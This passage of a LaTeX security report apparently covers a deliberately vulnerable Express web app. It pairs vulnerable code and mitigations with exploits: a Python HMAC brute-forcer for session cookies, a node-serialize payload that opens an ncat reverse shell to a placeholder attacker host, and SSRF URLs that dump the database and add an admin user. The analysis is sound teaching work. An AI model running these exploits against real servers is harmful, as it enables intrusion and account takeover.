        saveUninitialized: true,
        resave: true,
        genid: (req) => {
            const user_id = req.body.username || `1`;
            return user_id;
        },
        cookie: {
            httpOnly: false,
            secure: false,
            sameSite: "strict",
            maxAge: 3600000000
        }
    })
);
\end{lstlisting}
The vulnerability in the code lies in the \texttt{maxAge} parameter set to 3600000000. This means that a session remains active (e.g. even after closing the window) for about 13 months, unless it is closed manually.
\\ \textbf{Mitigation:} To mitigate this vulnerability, it is sufficient to lower the \texttt{maxAge} threshold to a reasonable value.

\subsubsection{Session Prediction}

\textbf{Description:} The session prediction attack focuses on predicting session ID values that permit an attacker to bypass the authentication schema of an application. By analyzing and understanding the session ID generation process, an attacker can predict a valid session ID value and get access to the application. \\ 
In the first step, the attacker needs to collect some valid session ID values that are used to identify authenticated users. Then, they must understand the structure of session ID, the information that is used to create it, and the encryption or hash algorithm used by application to protect it. Some bad implementations use sessions IDs composed by username or other predictable information, like timestamp or client IP address. In the worst case, this information is used in clear text or coded using some weak algorithm like base64 encoding. \\ 
In addition, the attacker can implement a brute force technique to generate and test different values of session ID until they successfully get access to the application.
\\ \textbf{Vulnerable code:} In \texttt{index.js}:
\begin{lstlisting}
app.use(
    session({
        secret: process.env.SESSION_SECRET,
        saveUninitialized: true,
        resave: true,
        genid: (req) => {
            const user_id = req.body.username || `1`;
            return user_id;
        },
        cookie: {
            httpOnly: false,
            secure: false,
            sameSite: "strict",
            maxAge: 36000000000
        }
    })
);
\end{lstlisting} 
\textbf{Exploitation:} Express uses the express\_session library to create a session cookie that HMACs the session id with the server secret (same for all users). Since the session id is the username, an attacker can simply brute force the server secret and then extract any session cookie having the username.
Here's an example of python exploit:
\begin{lstlisting}
defalut_charset = string.ascii_letters + string.ascii_digits + string.punctuation
def hmac_bruteforce(target_hmac, user, charset=defalut_charset, min_key_length=1, max_key_length=10):
    for key_length in range(min_key_length, max_key_length + 1):
        for j, key_attempt in tqdm(enumerate(itertools.product(charset, repeat=key_length)), total=(len(charset)*key_length), unit="attempt"):
            key = ''.join(key_attempt)
            generated_hmac = hmac.new(key.encode(), user.encode(), hashlib.sha256).digest()
            generated_hmac_b64 = base64.b64encode(generated_hmac)
            hmac_obtained = generated_hmac_b64.decode("ascii").replace("=", "")

            if hmac_obtained == target_hmac:
                return key
            if j % 3_000_000 == 0:
                print(f"Trying {key=}")

    return None

if __name__ == "__main__":
    cookie = "s%3Aadmin.H9hJuvnMJMPBP4MAXYwgcshE5CZFhIDo6dR66nIadIw"
    user = cookie.split(".")[0][4:]
    target_hmac = cookie.split(".")[-1]
    print(f"Bruteforcing {user=} {target_hmac=}")
    found_key = hmac_bruteforce(target_hmac, user, charset=string.ascii_lowercase, min_key_length=6)

    if found_key:
        print(f"Chiave trovata: {found_key}")
    else:
        print("Chiave non trovata")
\end{lstlisting}
The result is: 
\begin{center}

\includegraphics[width=8cm]{images/brute_force.eps}
\end{center}
 \textbf{Mitigation:} To mitigate this attack, it is necessary to change the method of generating the session ID, so that it is unpredictable. An example is to use a UUID.
\begin{lstlisting}
app.use(
    session({
        secret: process.env.SESSION_SECRET,
        saveUninitialized: true,
        resave: true,
				// Default id generation is secure enough by using uuid
        cookie: {
            httpOnly: false,
            secure: false,
            sameSite: "strict",
            maxAge: 36000000000
        }
    })
);
\end{lstlisting}

\subsection{Software and Data Integrity Failures}
Software and data integrity failures relate to code and infrastracture that does not protect against integrity violations. 

\subsubsection{Deserialization of untrusted data}
\label{subsubsec:deserialization_of_untrusted_data}
\textbf{Description:} This vulnerability belongs to the category of {\it software and data integrity failures}, it is caused by the deserialization 
of data provided by an user using the \texttt{node-serialize} package. 
\\ 
\textbf{Vulnerable code:} The code is contained in the \texttt{routes/transactions.js} file of the Express backend. At line 3, \texttt{node\_serialize.unserialize} 
is used to deserialize the body of the POST request sent by the seller to request a payment to an user. This package internally uses \texttt{eval}, this can be 
exploited providing a specific string in input to execute arbitrarty code in the server.
\begin{lstlisting}
router.post("/requestPayment", function (req, res) {
    if (req.session.user !== undefined && req.session.user.role === "seller") {
        const obj = node_serialize.unserialize(req.body);
        dbapi.getUserRoleUserByUsername(obj.usernameBuyer)
            .then((role) => {
                if (role === "user") {
                    dbapi.addTransaction(req.session.user.username, obj.usernameBuyer, obj.amount)
                        .then(() => {
                            res.status(200).send();
                        })
                        .catch(() => {
                            res.status(500).send();
                        });
                }
                else {
                    res.status(500).send();
                }
            });
    }
    else {
        res.status(401).send();
    }
});
\end{lstlisting}
\textbf{Exploitation:} The exploit aims to open a reverse shell which allows the attacker to take the control of the server. The attacker needs to login 
as a valid seller then it has to send a POST request to request a payment to an user with a specific body. Using as body 
\{"rce":"\_\$\$ND\_FUNC\$\$\_function()\{require('child\_process').exec('ncat ATTACKER IP PORT -e /bin/sh');\}()"\}
during the deserialization process, anything after the tag \texttt{\$\$ND\_FUNC\$\$} goes directly to \texttt{eval} function. 
Using the immediately-invoked function expression, \texttt{function()\{...\}} will be automatically invoked after it will be defined 
during deserialization. The attacker can listen to the incoming connection using the command \texttt{ncat -lvp <PORT>}, then it will 
have access to the shell of the server. 
\\
\textbf{Mitigation:} The vulnerability can be fixed using another package to deserialize data or extracting directly the data from the request body. 

\subsection{Security Logging and Monitoring Failures}

Security Logging and Monitoring Failures occur when systems lack mechanisms to detect and respond to security incidents. Without adequate logging and monitoring, attackers can exploit vulnerabilities undetected. Issues include missing logs for security events, unclear log messages, lack of continuous monitoring, and local-only log storage, risking deletion if compromised. Effective logging and monitoring are essential for timely detection and response to security threats.

\subsubsection{Repudiation Attack}

\textbf{Description:} A repudiation attack happens when an application or system does not adopt controls to properly track and log users’ actions, thus permitting malicious manipulation or forging the identification of new actions. This attack can be used to change the authoring information of actions executed by a malicious user in order to log wrong data to log files. Its usage can be extended to general data manipulation in the name of others, in a similar manner as spoofing mail messages. If this attack takes place, the data stored on log files can be considered invalid or misleading.
\\ \textbf{Vulnerable code:} In \texttt{transaction.js}:
\begin{lstlisting}
router.get("/getOwn", function (req, res) {
    winston.info(`User "${req.cookies["username"]}" fetched its own transactions`);
    if (req.session.user !== undefined && req.session.user.role === "user") {
        dbapi.getAllTransactions(req.session.user.id)
            .then((rows) => {
                if (rows !== undefined)
                    res.status(200).send(JSON.stringify(rows));
                else
                    res.status(500).send();
            })
            .catch(() => {
                res.status(500).send();
            });
    }
    else {
        res.status(401).send();
    }
});
\end{lstlisting}
\textbf{Exploitation:} An attacker can modify cookies, for example by changing the username. This causes an alteration of the log file, making it no longer reliable.
\begin{center}

\includegraphics[width=8cm]{images/repudiation.eps}
\end{center}
\textbf{Mitigation:} To avoid this type of attack, it is necessary to avoid relying on data that can be manipulated. For example, instead of using the username present in the cookies in the log file, the data inside the session could be used:
\begin{lstlisting}
router.get("/getOwn", function (req, res) {
    winston.info(`User "${req.session.user.username}" fetched its own transactions`);
    // ...
});
\end{lstlisting}

\subsection{Server Side Request Forgery}

\subsubsection{SSRF (Server Side Request Forgery)}

\textbf{Description:}
SSRF (Server Side Request Forgery) is a vulnerability that occurs when a web application fetches a remote resource based on user-supplied URLs without proper validation. This vulnerability allows attackers to make requests from the server to internal network resources or services, potentially leaking sensitive information or interacting with internal systems. By exploiting this flaw, attackers can access internal services that are otherwise not exposed to the outside world, posing significant security risks.

\textbf{Vulnerable code:}
Consider the scenario where the web application allows sellers to upload a PDF document to verify their identity. The seller provides a URL to the PDF, and the server fetches this URL to obtain the document. The vulnerable code in \texttt{api/authentication.js} in the Express backend looks like this:

\begin{lstlisting}
fetchPDF(req.body.sellerPDFUrl)
    .then(pdfBuffer => {
        dbapi.addSeller(req.body.username, req.body.password, req.body.address, "seller", "true", pdfBuffer)
        .then(() => {
            res.status(201).send(JSON.stringify({"pdfBuffer": pdfBuffer}));  // oops
        })
    });
\end{lstlisting}

In this example, the server fetches the PDF from the provided URL and returns the content to the frontend, where it is displayed as a preview. However, if the URL is malicious, the server may fetch harmful content or interact with internal services.

\textbf{Exploitation:}
An attacker can exploit this SSRF vulnerability by supplying a URL that targets an internal service, such as an administrative interface or a database management service. For example, if there is a service like \texttt{sqlite\_db} running on \texttt{127.0.0.1:8080} that manages the database, the attacker can use the SSRF vulnerability to send a query to this service:

\begin{lstlisting}
http://127.0.0.1:8080/query/?sql=select+*+from+transactions;
\end{lstlisting}

This request would fetch the data from the internal service, and the response will include sensitive information from the database, which is then returned to the attacker through the vulnerable application. If attacker tries to inspect the PDF failed preview by downloading the frame, he could see the html page of sqlite\_web with sql query response!

Or even worse:
\begin{lstlisting}
http://127.0.0.1:8080/query/?sql=INSERT+INTO+users+(username,+password,+role,+balance,+pending_registration)+VALUES('adminr',+'adminr',+'admin',+0,+'false')
\end{lstlisting}

This would create an admin user!

\textbf{Mitigation:}
A simpler and more secure solution would be to allow users to directly upload the PDF rather than providing a URL. However, if using URLs is the preferred approach, web applications should validate the submitted URLs against a whitelist of allowed domains and ensure that the URLs do not point to internal IP addresses or services. Additionally, it's important not to return raw responses: sending back the fetched PDF for preview was silly.

\end{document}
